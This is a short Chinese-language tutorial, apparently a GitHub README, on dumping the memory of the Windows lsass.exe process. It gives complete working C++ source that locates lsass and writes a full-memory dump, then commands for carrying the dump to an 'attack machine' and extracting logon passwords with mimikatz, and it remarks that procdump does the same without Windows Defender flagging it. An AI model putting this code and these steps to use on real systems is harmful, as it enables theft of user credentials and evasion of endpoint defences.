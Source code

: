 # 利用windows api dump进程

## c++源代码

```
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
    DWORD lsassPID = 0;
    HANDLE lsassHandle = NULL; 
    HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";

    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processName, L"lsass.exe") != 0) {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
        wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
    }

    lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
    BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);

    if (isDumped) {
        cout << "[+] lsass dumped successfully!" << endl;
    }

    return 0;
}

```

https://github.com/ianxtianxt/windows-api-dump/

## 执行演示

### 执行CreateMiniDump.exe（上面的编译文件）或编译自己的二进制文件

### Lsass.dmp被转储到工作目录

### 让lsass.dmp离线到你的攻击机器上

### 打开mimikatz并加载到转储文件中

### 储存密码


```
.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```

![ce4902ef34e8441b881f3732fe84ff98](images/ce4902ef34e8441b881f3732fe84ff98.gif)

![276ea8f4e9e94bbdaca50185c536ee2f](images/276ea8f4e9e94bbdaca50185c536ee2f.gif)




可以在mimikatz中离线读取

![](images/15897833556413.png)


这里有一个pdocdump可以执行相同的操作，并且不会被windows defender标记。

